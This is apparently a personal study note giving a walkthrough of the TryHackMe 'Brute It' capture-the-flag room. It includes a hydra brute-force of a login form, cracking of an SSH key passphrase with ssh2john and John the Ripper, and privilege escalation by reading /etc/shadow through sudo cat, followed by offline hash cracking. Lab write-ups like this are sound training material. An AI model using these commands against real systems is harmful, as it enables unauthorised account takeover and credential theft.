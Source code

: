 
2024-07-28 20:06

Source: #tryhackme #privesc #CTF 

Tags:  [[Cryptography]]
#### Hydra brute force

we have a website that has a simple login page with username and password 
we find the username from the source code 
use [[Tags/hydra]] to brute force the password
```sh
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.91.80 http-post-form '/admin/:user=^USER^&pass=^PASS^:Username or password invalid'
```
#### cracking rsa 

- after logging in the website we find a [[ssh]] `rsa` private key, `wget` it from the website  
- The special John the Ripper tool called **ssh2john.py** which can extract the crackable hash from the [[RSA]] private key. (don't save o/p in a text file)
```
/usr/share/john/ssh2john.py id_rsa  > rsa.hash
```
- then user `rockyou` wordlist with john to crack the pass 
- `chmod` the original `id_rsa` file - `chmod 600 id_rsa`
- use `ssh` to login as john
#### using John

Adding the option `--rules=wordlist` to your [[john]] command line generates multiple passwords from each one. For instance, it appends and prepends single digits, use this if the password isn't cracked by using a wordlist (its like data augmentation)

```sh
john --format=raw-sha256 --rules=wordlist --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt
```

- if a password protected pdf is there use `pdf2john.pl private.pdf > pdf.hash` to convert the pdf to a hash
- further crack the hash 
- in order to open a pdf file we can convert it into text  `pdftotext private.pdf -upw <password>`

#### Priv esc

- `sudo -l` -> can run `cat` with sudo
- go to gtfobins and find exp. for `cat `
- since you can cat files using `sudo` , `cat /etc/shadow` and get a hash of the root pass which you further crack using john 
- Before we use John the Ripper to find out the root’s password we need to put it in a format that john will understand. To do this we will use the unshadow command. 
`/etc/passwd` and `/etc/shadow` files are passwd.txt and shadow.txt respectively 
```sh
unshadow passwd.txt shadow.txt > pass.txt
john --wordlists=../rockyou.txt pass.txt
john --show pass.txt
```
- `sudo cat` the `root/root.txt` and get the flag
### References

[TryHackMe | Brute It](https://tryhackme.com/r/room/bruteit)
[TryHackMe: Brute It - Eric Logan](https://eric.cc/tryhackme-brute-it/)
[TryHackMe | Brute It Walkthrough | Medium](https://enescayvarli.medium.com/tryhackme-bruteit-walkthrough-e93e3f29c233)

Linpeas - [linpeas | grimbins](https://grimbins.github.io/grimbins/linpeas/)